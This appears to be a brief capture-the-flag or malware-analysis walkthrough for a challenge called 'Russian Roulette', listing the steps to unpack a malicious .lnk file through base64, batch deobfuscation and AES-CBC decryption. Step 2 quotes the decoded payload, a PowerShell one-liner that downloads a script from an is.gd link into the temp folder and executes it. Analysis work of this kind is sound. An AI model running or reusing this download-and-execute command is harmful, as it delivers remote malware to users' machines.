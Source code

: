 # Russian Roulette

1. Analyze the `.lnk` file, use `parse_lnk()` in [`russian_roulette.py`](russian_roulette.py)
2. Decode the base64 there and discover a payload `iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd`
3. Download the `is.gd` link (saved into `cmd_from_is.gd`)
4. Get rid of the encoding and comments: `cat cmd_from_is.gd  | grep -e '^::' -v | dd of=try0 bs=1 skip=2`
5. Manually search/replace some of the first obfuscation (~15 top lines +/-), saved to `try1`
6. Split off the 2nd part of the file into `try1.1`
7. Use `deobfuscate()` in [`russian_roulette.py`](russian_roulette.py), saves into `try1.2`
8. Extract the base64 blob into `try1.2a`, decode it `cat try1.2a | base64 -D`
9. Extract the C# code from it - guestimate it is AES-CBC
10. Use `decrypt()` in [`russian_roulette.py`](russian_roulette.py).
